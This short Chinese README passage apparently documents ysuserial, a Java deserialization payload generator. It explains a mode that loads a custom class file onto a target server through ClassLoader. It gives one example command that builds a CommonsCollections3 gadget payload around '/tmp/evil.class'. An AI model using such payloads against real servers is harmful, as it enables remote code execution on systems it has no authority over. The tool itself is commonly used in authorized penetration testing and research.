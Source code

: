 ![image-20220618205828822](images/image-20220618205828822.png)

### 任意自定义代码

如果你不想使用本项目中提供的恶意逻辑，也不想执行命令，可以通过自定义代码的形式，自定义代码将会在目标服务器通过 ClassLoader

[//]: # (进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径，程序会尝试自动缩减类字节码的大小。)

示例：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections3 -p LF-/tmp/evil.class
```

效果图：
